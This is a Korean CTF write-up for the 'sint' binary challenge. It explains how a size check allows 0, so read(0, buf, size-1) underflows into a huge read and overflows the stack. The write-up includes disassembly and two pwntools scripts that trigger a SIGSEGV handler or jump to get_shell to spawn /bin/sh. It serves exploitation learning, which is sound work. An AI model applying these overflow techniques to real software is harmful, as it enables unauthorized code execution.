 #정수오버플로우 #정수언더플로우 

### 1. 파일 분석

./sint: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=947126fc21f880e02d4cd134916108100c297998, not stripped

```
[*]
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

ASLR이 적용되어 있고, 바이너리에는 NX가 적용되어 있다. Canary 와 PIE는 적용도지 않았다.
또한 Partial RELRO 가 적용되어 있다.

Canary가 적용되지 않았기 때문에 버퍼 오버플로우를 일으킬 시, 카나리를 올바른 값으로 덮어주지 않아도 프로세스의 흐름을 계속 이어나갈 수 있다.

### 2. C 소스파일 분석

``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

/*
stdin, stdout 버퍼링 해제(입출력이 즉각적으로 보이게 함)
alarm(30) -> 30초 후 프로그램 강제 종료
SIGALRM 발생시 alarm_handler 실행 -> "TIME OUT" 출력 후 종료 
*/
void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    /*
    size 값을 공격자가 조작 가능.
    제한: 0 <= size <= 256 만 허용함.
    */
    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    /*
    size-1 바이트 만큼 입력 받음.
    size = 0 일 경우 -> read(0, buf, -1) 호출됨.
        read는 음수 크기를 unsigned로 변환 -> 매우 큰 값으로 처리됨. 
        즉, 대규모 버퍼 오버플로우 발생 가능!
    signal(SIGSEGV, get_shell)
        만약 버퍼 오버플로우로 Segmentation fault 발생 시,
        자동으로 get_shell() 실행 -> 셸 획득!
    */
    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

signal(SIGSEGV, get_shell) 가 지정되었기 때문에 SIGSEGV 에러, 즉 세그먼트 에러가 발생하게 되면 셸을 획들할 수 있다.
세그먼트 에러는 main 함수의 RET에 올바르지 않은 주소를 입력함으로써 일으킬 수 있다.

### 3. 익스플로잇

size 변수를 사용자로부터 입력받은 후, size > 256 || size < 0 이라면 프로세스를 종료한다. 따라서 size 의 범위는 0 ~ 256 이어야 한다.

올바른 사이즈가 설정되면  read(0, buf, size - 1) 으로 buf 에 문자열을 입력 받는다. buf에는 256 바이트가 할당되어 있으며, 버퍼 오버플로우가 일어나기 위해서는 257 바이트 이상을 입력받아야 하나, read 함수에 들어가는 읽을 바이트 수 인자는 size - 1로 -1 ~ 255의 값만이 가능하다.

read 함수의 인자 자료형
```
ssize_t read(int fildes, void *buf, size_t nbyte)
```

읽어들일 바이트 수를 지정하는 nbyte 인자는 size_t 자료형인 것을 확인할 수 있다. size_t 자료형은 32비트 아키텍쳐에서 기본적으로 unsigned int 와 동일한 연산을 진행한다.
따라서 nbyte 의 인자로 -1이 들어간다면 자동으로 형변환되어 0xffffffff = 4294967295 와 같은 의미를 가지게 된다. 따라서 size = 0 으로 설정한 후, size - 1 = -1 이 되게 하여 read(0, buf, 4294967295) 와 같은 기능을 실행시키게 하여 오버 플로우를 일으킬 수 있다.

버퍼 오버플로우를 일으킨 후에는 RET에 올바르지 않은 주소라 들어가기만 하면 되기에 buf 의 길이 이상의 적당히 긴 문자열을 전송하여 세그먼트 에러를 발생할 수 있다. 
혹은 PIE 가 적용되지 않았기 때문에 get_shell 의 주소를 RET에 삽입하는 방법으로 해결 또한 가능하다.

buf 의 위치 찾기
```
disass main
Dump of assembler code for function main:
   0x0804866c <+0>:     push   ebp
   0x0804866d <+1>:     mov    ebp,esp
   0x0804866f <+3>:     sub    esp,0x104
   0x08048675 <+9>:     call   0x8048612 <initialize>
   0x0804867a <+14>:    push   0x8048659
   0x0804867f <+19>:    push   0xb
   0x08048681 <+21>:    call   0x8048470 <signal@plt>
   0x08048686 <+26>:    add    esp,0x8
   0x08048689 <+29>:    push   0x80487a1
   0x0804868e <+34>:    call   0x8048460 <printf@plt>
   0x08048693 <+39>:    add    esp,0x4
   0x08048696 <+42>:    lea    eax,[ebp-0x104]
   0x0804869c <+48>:    push   eax
   0x0804869d <+49>:    push   0x80487a8
   0x080486a2 <+54>:    call   0x80484e0 <__isoc99_scanf@plt>
   0x080486a7 <+59>:    add    esp,0x8
   0x080486aa <+62>:    mov    eax,DWORD PTR [ebp-0x104]
   0x080486b0 <+68>:    cmp    eax,0x100
   0x080486b5 <+73>:    jg     0x80486c1 <main+85>
   0x080486b7 <+75>:    mov    eax,DWORD PTR [ebp-0x104]
   0x080486bd <+81>:    test   eax,eax
   0x080486bf <+83>:    jns    0x80486d5 <main+105>
   0x080486c1 <+85>:    push   0x80487ab
   0x080486c6 <+90>:    call   0x8048490 <puts@plt>
   0x080486cb <+95>:    add    esp,0x4
   0x080486ce <+98>:    push   0x0
   0x080486d0 <+100>:   call   0x80484b0 <exit@plt>
   0x080486d5 <+105>:   push   0x80487bc
   0x080486da <+110>:   call   0x8048460 <printf@plt>
   0x080486df <+115>:   add    esp,0x4
   0x080486e2 <+118>:   mov    eax,DWORD PTR [ebp-0x104]
   0x080486e8 <+124>:   sub    eax,0x1
   0x080486eb <+127>:   push   eax
   0x080486ec <+128>:   lea    eax,[ebp-0x100]
   0x080486f2 <+134>:   push   eax
   0x080486f3 <+135>:   push   0x0
   0x080486f5 <+137>:   call   0x8048450 <read@plt>
   0x080486fa <+142>:   add    esp,0xc
   0x080486fd <+145>:   mov    eax,0x0
   0x08048702 <+150>:   leave
   0x08048703 <+151>:   ret
End of assembler dump.
```

[ebp-0x100] 의 위치에 buf가 있는것을 확인할 수 있다.

``` python
from pwn import *

p = process("./sint")

p.sendline(b"0")
p.sendline(b"A" * (0x104 + 0x4 + 0x4))

p.interactive()
```

``` python
from pwn import *

p = process("./sint")
e = ELF("./sint")
get_shell = e.symbols["get_shell"]

p.sendline(b"0")
p.sendline(b"A" * (0x104 + 0x4) + p32(get_shell))

p.interactive()
```